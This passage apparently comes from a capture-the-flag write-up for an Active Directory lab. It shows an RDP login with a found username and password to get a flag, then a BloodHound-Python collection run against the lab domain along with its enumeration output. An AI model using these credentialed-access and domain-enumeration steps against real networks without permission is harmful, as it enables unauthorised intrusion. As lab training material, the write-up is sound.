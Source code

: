 ```bash
xfreerdp3 /u:SUSANNA_MCKNIGHT /p:CHANGEME2023! /v:10.201.7.236
```

--> Login successfully and get the flag !

![alt text](<Pasted image 20250828160324.png>)

## BloodHound-Python (Collection):

```bash
$ bloodhound-python -u SUSANNA_MCKNIGHT -p CHANGEME2023! -d thm.local -ns 10.201.7.236 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: thm.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: labyrinth.thm.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: labyrinth.thm.local
INFO: Found 493 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 222 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: labyrinth.thm.local
INFO: Done in 08M 35S
INFO: Compressing output into 20250828160632_bloodhound.zip
```
